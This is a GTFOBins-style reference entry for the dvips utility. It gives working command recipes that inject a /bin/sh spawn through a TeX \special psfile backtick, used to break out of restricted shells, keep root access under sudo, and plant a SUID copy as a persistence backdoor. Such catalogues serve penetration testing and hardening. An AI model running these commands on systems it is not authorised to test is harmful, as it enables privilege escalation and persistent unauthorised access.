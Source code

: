 # GTFOBin: dvips

The `texput.dvi` output file produced by `tex` can be created offline and uploaded to the target.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
tex '\special{psfile="`/bin/sh 1>&0"}\end'
dvips -R0 texput.dvi
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
tex '\special{psfile="`/bin/sh 1>&0"}\end'
sudo dvips -R0 texput.dvi
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which dvips) .

tex '\special{psfile="`/bin/sh 1>&0"}\end'
./dvips -R0 texput.dvi
```